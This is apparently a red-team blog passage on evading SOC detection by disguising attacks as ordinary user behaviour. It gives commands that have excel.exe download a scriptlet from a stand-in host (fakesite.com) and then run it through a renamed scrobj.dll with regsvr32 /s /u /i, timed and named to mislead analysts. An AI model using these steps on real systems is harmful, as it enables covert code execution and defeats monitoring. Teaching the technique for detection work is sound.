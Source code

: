 Commoditized malware and organized crime is where most of the focus in security is currently pointed. While adversaries will use common tools, research topics, and other public tactics, techniques, and procedures to conduct their compromises, they also have the ability to use customized attacks that will go largely undetected. However, the behaviors are still detectable, such as a non-technical user executing commands.

#### Demonstration <a href="#demonstration" id="demonstration"></a>

[Unicorn](https://github.com/trustedsec/unicorn), a tool written by Dave Kennedy 7 years ago, took 5 years to get detected. Instead of fixing the issues and behaviors that the tool abused, the payload was signatured. Dave Kennedy then wrote a program to pull `unicorn` from a repo, make automated modifications to the underlying code structure, ensure the newly created version didn’t get detected by Windows Defender, and then pushed the changes to GitHub. This completely automated process resulted in multiple updates over many months being done to Windows Defender, which eventually stopped due to too many signatures. Again, the commodity tool was detected and not the behavior.

#### Moving to Legitimate Behavior <a href="#moving-to-legitimate-behavior" id="moving-to-legitimate-behavior"></a>

Legitimate behavior emulates a regular user and is designed to throw off irregular activity through normal functions. Let’s flashback around 10 years ago and how we had to hack systems. By creating somewhat legitimate stories similar to what we do with social engineering when interacting with a system – our success rate drastically decreases for detection.

The first command will execute excel to download what purports to be a normal business file, but is actually a XLS scriptlet object that we will eventually use later. This file will be saved in the %TEMP% directory on the computer when it is downloaded.

```
excel.exe https://fakesite.com/CompanyNameReport_Metrics_v2.3.xls
```

```
excel.exe https://fakesite.com/CompanyNameReport_Metrics_v2.3.xls
```

Since we are trying to tell a story, we will now wait a couple of hours so that the next alert is not generated sequentially after the first if our behavior is being monitored. We’ll do the following tasks to further influence the story that we are attempting to tell a SOC. The second component involves the official Microsoft documentation for the [regsvr32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32) binary and includes a usage example of `regsvr32 schmmgmt.dll`, which would tell the SOC that this may be normal behavior. So let’s copy scrobj.dll to schmmgmt.dll. Further, the XLS Scriptlet object masquerading as CompanyNameReport\_Metrics\_v2.3.xls, is renamed to DllUninstall to further influence the SOC’s opinion.

```
Rename scrobj.dll to schmmgmt.dll
Rename CompanyNameReport_Metrics_v2.3.xls to dlluninstall
#our new regsvr32 command using the renamed items to tell a story to the analyst if the behavior gets detected
regsvr32.exe /s /u /i:DllUninstall schmmgmt.dll
```

```
Rename scrobj.dll to schmmgmt.dll
Rename CompanyNameReport_Metrics_v2.3.xls to dlluninstall

regsvr32.exe /s /u /i:DllUninstall schmmgmt.dll
```

